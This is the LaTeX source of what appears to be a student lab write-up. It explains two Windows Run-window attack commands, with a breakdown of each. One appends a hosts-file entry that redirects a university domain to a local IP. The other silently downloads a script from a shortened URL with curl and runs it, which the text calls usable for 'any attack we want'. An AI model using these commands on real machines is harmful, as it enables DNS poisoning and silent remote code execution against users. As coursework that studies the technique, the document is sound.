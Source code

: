 \documentclass[11pt]{report}
\begin{document}
\section*{Commands used for the attack}
We use the run window and type the below commands
\begin{verbatim}
  Command 1: cmd /c echo 10.0.2.4  mydfdshwu.hw.ac.uk >> C:\Windows\System32\drivers\etc\hosts 
\end{verbatim}
TBD really need pics?
\begin{itemize}
  \item cmd /c - This tells Windows to execute the following command in cmd 
  \item echo 10.0.2.4  myhwu.hw.ac.uk - This is a command used to display text on the command prompt or to redirect it to a file. Here, it's used to output the string 10.0.2.4 myhwu.hw.ac.uk. 
  \item $>>$ - This is a redirection operator. In this case, it appends the output of the echo command to the end of the file. 
  \item C:$\backslash$Windows$\backslash$System32$\backslash$drivers$\backslash$etc$\backslash$hosts - This is the path to the hosts file on a Windows system. 
  \item Overall, this command adds a mapping between a domain and an IP address to the end of the host's file.
\end{itemize}

\begin{verbatim}
  Command 2: cmd /c cd C:\ && curl -L -o v.cmd https://t.ly/L1N0l> NUL 2>&1 && v.cmd \end{verbatim}
TBD really need pics?
\begin{itemize}
  \item cd C:\ - This tells Windows to move to the C directory.  
  \item \&\& - This operator is used to execute multiple commands sequentially  
  \item curl -L -o v.cmd https://t.ly/L1N0l - This command uses curl to download a file from the URL and save it as v.cmd  
  \item \> NUL 2$>$\&1 - This part redirects the standard output and the stderr to NUL thus suppressing any message. (So even if the cmd opens it will be blank)  
  \item v.cmd - This is used to execute the file v.cmd 
\end{itemize}

There are 2 commands mentioned. Command 1 is for only poisoning the hosts file
while with command 2 we can do anything. Command 2 downloads a cmd file from
the web and runs that. Thus, modifying anything thus this is not limited only
to DNS poisoning, we can do any attack we want using this method.\\
\end{document}
